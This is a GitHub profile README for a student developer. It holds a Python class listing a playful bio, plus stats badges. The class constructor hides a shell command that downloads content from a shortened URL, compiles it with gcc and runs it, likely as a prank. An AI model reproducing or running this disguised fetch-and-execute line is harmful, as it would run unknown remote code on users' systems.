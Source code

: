<h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 i'm interested in'           : {'Art, *NIX customisation, Linux and BSD in general >:)'}
      '- 💼 i am a'                      : {'Senior high school student'},
      '- 🔭 i’m currently working on'    : {'My personal website' : 'https://melorin4.github.io',
                                            'cFetch'              : 'https://github.com/melorin4/cfetch'},
      '- 🌱 i’m currently learning'      : {'Python', 'Javascript', 'GDScript', 'Web Development', 'Godot Engine'},
      '- 💬 you ask me about'                : {'Linux', 'Art', 'Games', 'Books'}
      '- 👨‍💻 my art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ fun fact'                    : ('I'm a Void Linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
<br>
  

### languages & other stats 💻
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=melorin4&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=melorin4%27s%20Github%20Stats" width="48%" alt="lorin"/></a>
</p>
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=melorin4&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=beep%20boop" alt="melorin4"/></a>
</p>
<br>
